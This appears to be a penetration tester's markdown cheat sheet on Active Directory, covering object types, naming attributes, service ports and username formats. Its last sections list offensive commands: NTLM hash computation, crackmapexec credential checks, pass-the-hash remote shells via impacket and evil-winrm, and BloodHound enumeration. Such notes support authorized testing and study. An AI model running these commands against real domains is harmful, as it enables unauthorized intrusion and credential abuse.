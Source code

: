 # AD Info
Passwords in SYSVOL also known as GPP Passwords
LLMNR Spoofing


AD
	ADUC
		Objects
			User account
				Domain user account
				Local user account
			Computer account
			Groups
				Security Group
				Distribution Group
			Shares
			Printers
			Organizational Units (OU)
			Attributes
			Delegate Control

Service account
	Managed service account (MSA)
		sMSA
		gMSA
	Computer account
	User account
		Domain user account
		Local user account

## User Naming Attributes
* userPrincipalName - the logon name for the user
* objectGUID - the unique identifier of a user
* sAMAccountName - a logon name that supports previous version of Windows
* objectSID - security identifier (SID) of the user
* sIDHistory - the previous SIDs for the user object

#### Domain & computers
NetBIOS name
DNS name

#### Users
Down-level logon name:
NetBios_DOMAIN/samAccountName
legacy systems - backwards compatible - used for local signon
20 chars long

User Principal Name (UPN):
userPrincipalName@DNS_DOMAIN_NAME
Useful in multi-domain 
Reflects email style

## Common services used in AD
LDAP
	Kerberos vs NTLM?
	SASL
	DHCP
	not SAML and RADIUS

|Service|port|
|-|-|
|DNS|53|
|Kerberos-kpasswd|88-464|
|RPC-HTTP enpoint mapper|135-593| 
|NetBios|137-138-139|
|LDAP-tls|389-636|
|SMB|445|
|Global catalog LDAP-tls|3268-3269|

## Domain username convention
firstlast
flast
firlas
first.last
f.last
fir.las

## Calculate NTLM hash
```Python
import hashlib,binascii
print(binascii.hexlify(hashlib.new('md4', "<PASSWORD>".encode('utf-16le')).digest()))
```

## Password policy
`polenum '<USER>':'<PASS>' -d <IP/DOMAIN>`
`crackmapexec smb IP -u '<USER>' -p '<PASS>' --pass-pol`

## Expoitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD